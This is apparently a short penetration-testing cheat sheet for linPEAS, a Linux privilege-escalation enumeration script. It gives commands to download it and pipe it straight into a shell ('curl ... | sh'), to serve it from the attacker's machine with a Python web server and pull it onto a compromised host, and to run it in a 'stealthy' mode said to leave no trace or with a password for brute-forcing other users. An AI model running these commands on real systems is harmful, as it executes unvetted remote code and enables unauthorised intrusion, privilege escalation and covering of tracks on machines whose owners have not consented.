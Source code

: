 # linpeas
https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
## Examples
### Download from GitHub with wget
```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```
### Download from github with curl
```
curl https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh | sh
```
### Serve from local machine
#### Steps
##### Serve From Local
1. download
```
wget https://raw.githubusercontent.com/carlospolop/privilege-escalation-awesome-scripts-suite/master/linPEAS/linpeas.sh
```
1.  get ip address
```
ifconfig
```
1.  start python server
```
python -m SimpleHTTPServer 80
```
##### wget linpeas from my IP on remote machine
```
wget $MY_IP/linpeas.sh
```
### Run linpeas
1. Ensure it is executable
```
chmod 777 linpeas.sh
```
1.  Run it
```
./linpeas.sh
```
### stealthy
```
./linpeas.sh -s
```
#### -s
(superfast & stealth): This will bypass some time-consuming checks and will leave absolutely no trace.
### with password
```
./linpeas.sh -P $password
```
#### -P
(Password): Pass a password that will be used with sudo -l and Bruteforcing other users

